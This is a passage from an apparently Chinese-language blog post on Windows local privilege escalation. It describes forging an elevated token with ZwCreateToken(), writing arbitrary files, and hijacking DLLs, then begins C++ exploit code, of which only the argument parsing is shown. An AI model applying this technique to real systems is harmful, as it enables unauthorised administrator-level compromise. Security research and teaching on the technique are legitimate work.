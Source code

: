![image-20230706124651014](/assets/posts/2023-07-06-creating-windows-access-tokens-with-god-privilege/image-20230706124651014.png)

我们可以通过 `ZwCreateToken()` 函数创建一个提升权限的模拟令牌，使用该令牌创建线程实现任意文件写入，最终通过 DLL 劫持等方法实现提权。下面给出可供参考的利用代码。
# Implemented By C/C++
## Main Fcuntion

主函数首先从命令行获取 `-s` 和 `-d` 两个参数，分别对应后续文件写入的源文件和目的文件，然后通过 `GetCurrentProcess()` 和 `OpenProcessToken()` 函数打开当前进程的句柄，如下所示。

```c++
int wmain(int argc, wchar_t* argv[])
{
	HANDLE hToken = NULL;
	HANDLE pElevatedToken = NULL;
	HANDLE hThread = NULL;
	LPCWSTR sourceFile = NULL;
	LPCWSTR destFile = NULL;

	while ((argc > 1) && (argv[1][0] == '-'))
	{
		switch (argv[1][1])
		{
		case 's':
			++argv;
			--argc;
			if (argc > 1 && argv[1][0] != '-')
			{
				sourceFile = (LPCWSTR)argv[1];
			}
			break;
		case 'd':
			++argv;
			--argc;
			if (argc > 1 && argv[1][0] != '-')
			{
				destFile = (LPCWSTR)argv[1];
			}
```